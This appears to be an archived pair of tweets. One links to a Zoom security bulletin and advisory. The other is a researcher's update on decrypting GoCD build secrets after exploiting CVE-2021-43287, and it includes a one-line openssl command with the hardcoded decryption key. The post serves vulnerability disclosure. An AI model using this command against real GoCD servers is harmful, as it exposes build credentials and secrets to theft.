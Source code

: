 Advisory: https://t.co/8rGJAWZMvf https://t.co/PFOKiKZPPz
</blockquote>

* https://explore.zoom.us/en/trust/security/security-bulletin/

<table><tr>
<td><img src="pictures/8dd971558bd753c7f360c0de9d6a5ee007d13e9c3c790541a810e3e81472514a.jpg" alt="8dd971558bd753c7f360c0de9d6a5ee007d13e9c3c790541a810e3e81472514a.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>245</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1458348322931019777 _at 2021-11-10, 08:18:29_**
<blockquote>
Updated with information on decrypting build secrets (environment variables) after exploiting GoCD CVE-2021-43287.

openssl aes-128-cbc -d -a -K 8db66fa5892e8bba1931fdbc7999034d -iv $(xxd -p &lt;(base64 -d &lt;&lt;&lt;S1+AMT0qR1Tc1e/0pszILQ==)) &lt;&lt;&lt;CcOFLa59jShholBS0pV+yg==
</blockquote>
